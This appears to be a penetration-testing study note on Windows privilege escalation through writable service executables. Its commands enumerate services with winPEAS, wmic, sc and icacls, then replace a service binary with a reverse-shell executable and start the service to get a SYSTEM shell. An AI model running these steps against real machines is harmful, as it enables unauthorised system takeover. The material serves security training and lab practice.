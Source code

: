 If the original service executable is modifiable by our  
user, we can simply replace it with our reverse shell  
executable.  
Remember to create a backup of the original executable  
if you are exploiting this in a real system!

1.Run winPEAS to check for service misconfigurations:  
`.\winPEASany.exe quiet servicesinfo`

> 2.Note that the “filepermsvc” service has an executable which appears to be writable by everyone. We can confirm this with accesschk.exe:
> 
> > File Permissions: Everyone [AllAccess]

`> .\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"`

3.Create a backup of the original service executable:  
`copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp`

4.Copy the reverse shell executable to overwrite the service executable:  
`copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"`

5.Start a listener on Kali, and then start the service to trigger the exploit:  
`net start filepermsvc`

**Check if you can modify the binary that is executed by a service** or if you have **write permissions on the folder** where the binary is located ([**DLL Hijacking**](app://obsidian.md/dll-hijacking/))**.**  
You can get every binary that is executed by a service using **wmic** (not in system32) and check your permissions using **icacls**:

```bash
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

You can also use **sc** and **icacls**:

```bash
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```